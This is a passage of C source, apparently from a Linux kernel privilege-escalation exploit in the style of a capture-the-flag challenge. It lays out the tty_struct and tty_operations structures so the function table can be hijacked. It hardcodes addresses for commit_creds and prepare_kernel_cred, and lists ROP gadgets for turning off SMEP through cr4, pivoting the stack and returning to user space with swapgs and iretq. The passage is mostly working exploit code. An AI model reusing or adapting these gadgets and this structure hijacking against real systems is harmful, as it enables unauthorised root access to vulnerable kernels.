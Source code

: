 ```
int magic; // 4
struct kref kref; // 4
struct device *dev; // 8
struct tty_driver *driver; // 8
const struct tty_operations *ops; // 8, offset = 4 + 4 + 8 + 8 = 24
[...]
*/

struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver,
    struct file *filp, int idx);
    int (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int (*write)(struct tty_struct * tty,
    const unsigned char *buf, int count);
    int (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    int (*write_room)(struct tty_struct *tty);
    int (*chars_in_buffer)(struct tty_struct *tty);
    int (*ioctl)(struct tty_struct *tty,
    unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct *tty,
    unsigned int cmd, unsigned long arg);
    void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
    void (*throttle)(struct tty_struct * tty);
    void (*unthrottle)(struct tty_struct * tty);
    void (*stop)(struct tty_struct *tty);
    void (*start)(struct tty_struct *tty);
    void (*hangup)(struct tty_struct *tty);
    int (*break_ctl)(struct tty_struct *tty, int state);
    void (*flush_buffer)(struct tty_struct *tty);
    void (*set_ldisc)(struct tty_struct *tty);
    void (*wait_until_sent)(struct tty_struct *tty, int timeout);
    void (*send_xchar)(struct tty_struct *tty, char ch);
    int (*tiocmget)(struct tty_struct *tty);
    int (*tiocmset)(struct tty_struct *tty,
    unsigned int set, unsigned int clear);
    int (*resize)(struct tty_struct *tty, struct winsize *ws);
    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
    int (*get_icount)(struct tty_struct *tty,
    struct serial_icounter_struct *icount);
    const struct file_operations *proc_fops;
};

typedef int __attribute__((regparm(3)))(*_commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (*_prepare_kernel_cred)(unsigned long cred);

/* Gadgets */
_commit_creds commit_creds = (_commit_creds) 0xffffffff810a1420;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred) 0xffffffff810a1810;
unsigned long native_write_cr4 = 0xFFFFFFFF810635B0; // 写入cr4来关闭smep
unsigned long xchgeaxesp = 0xFFFFFFFF81007808; // 设置栈
unsigned long poprdiret = 0xFFFFFFFF813E7D6F;
//unsigned long iretq = 0xFFFFFFFF8181A797;
unsigned long iretq = 0xffffffff814e35ef;
unsigned long swapgs = 0xFFFFFFFF81063694;  // 回到用户空间之前的准备

/* status */
unsigned long user_cs, user_ss, user_rflags;
```